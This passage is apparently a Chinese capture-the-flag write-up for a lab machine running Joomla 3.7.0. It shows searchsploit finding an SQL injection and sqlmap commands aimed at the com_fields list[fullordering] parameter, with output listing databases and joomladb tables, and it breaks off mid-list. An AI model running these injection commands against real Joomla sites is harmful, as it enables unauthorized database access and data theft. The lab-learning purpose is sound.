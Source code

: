   

![](https://pic2.zhimg.com/80/v2-e7dca4cc17e828640954068ca7ac61c1_720w.webp)

  

大概的意思就是说这个靶场只有一个Flag，要让我们取得 root 权限！

## Joomla SQL 注入

既然是这样那么我首先是搜索了有关于 `Joomla 3.7.0` 的漏洞信息，看看能不能捡个漏

```text
searchsploit Joomla 3.7.0
```

  

![](https://pic1.zhimg.com/80/v2-30270930de4df3a4616ff1b65986c1e8_720w.webp)

  

由上图可见，它这个版本有一个 `SQL` 注入！既然有注入那么就丢到 `Sqlmap` 一把梭：

```text
sqlmap -u "http://192.168.1.103/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

  

![](https://pic4.zhimg.com/80/v2-98727d74154d0a9eee6c1238b247c457_720w.webp)

  

这边是注入出来了`五`个数据库，但是 `Joomla CMS` 默认的数据库为 `joomladb`，所以我们就直接跑这个数据库下的表把：

```text
sqlmap -u "http://192.168.1.103/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb --tables
[01:08:45] [INFO] fetching tables for database: 'joomladb'
[01:08:45] [INFO] used SQL query returns 91 entries
Database: joomladb
[76 tables]
+---------------------+
| #__assets           |
| #__associations     |
| #__banner_clients   |
| #__banner_tracks    |
| #__banners          |
| #__bsms_admin       |
| #__bsms_books       |
| #__bsms_comments    |
| #__bsms_locations   |
| #__bsms_mediafiles  |
| #__bsms_message_typ |
| #__bsms_podcast     |
| #__bsms_series      |
| #__bsms_servers     |
| #__bsms_studies     |
| #__bsms_studytopics |
| #__bsms_teachers    |
| #__bsms_templatecod |
| #__bsms_templates   |
| #__bsms_timeset     |
| #__bsms_topics      |
| #__bsms_update      |
| #__categories       |
| #__contact_details  |
| #__content_frontpag |
| #__content_rating   |
```